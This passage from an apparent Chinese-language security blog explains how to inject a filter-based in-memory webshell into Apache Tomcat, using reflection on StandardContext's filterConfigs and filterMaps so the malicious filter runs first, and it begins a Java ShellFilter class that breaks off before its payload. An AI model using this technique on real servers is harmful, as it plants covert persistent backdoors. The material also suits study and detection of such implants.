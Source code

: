 ![](2023-01-28-17-34-56.png)
#### 实现代码
上述的实现思路知道原理后其实很多地方可以直接使用反射来修改`filterConfigs`和`FilterMaps`变量,而不用再分别去调用相关方法添加相关对象,更加简洁.  
几个关键点:
1. 使用反射添加的话就不必考虑`addMappingForUrlPatterns`中对运行状态的判断了
2. 添加FilterMap的时候,由于FilterMaps对象是一个ContextFilterMaps类,而该类是StandardContext对象的私有内部类,通过反射无法显式得到该属性的类型,无法直接强制转换,可以通过反射得到其相关add方法来添加FilterMap.
3. ContextFilterMaps类有两个addFilter方法,使用`addBefore`則是将该Filter添加在常规Mapping映射的Filter前面,一般来说就是在用户自定义filter的前面了,而不必再对filterMaps属性手动调换位置. 
```java
package org.example.Servlets;

import org.apache.catalina.core.ApplicationFilterConfig;
import org.apache.catalina.core.StandardContext;
import org.apache.tomcat.util.descriptor.web.FilterDef;
import org.apache.tomcat.util.descriptor.web.FilterMap;

import javax.servlet.*;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.HashMap;

public class ShellFilter extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws IOException {
        ServletContext servletContext = req.getServletContext();
        StandardContext o = null;
        //如果已有则避免重复添加
        if (servletContext.getFilterRegistration("shellFilter") != null) {
            return;
        }
        while (o ==null) {
            try {
                Field f = servletContext.getClass().getDeclaredField("context");
                f.setAccessible(true);
                Object ob = f.get(servletContext);
                if (ob instanceof ServletContext) {
                    servletContext = (ServletContext) ob;
                } else if (ob instanceof StandardContext) {
                    o = (StandardContext) ob;
                }
            } catch (NoSuchFieldException | IllegalAccessException e) {
                throw new RuntimeException(e);
            }
        }
```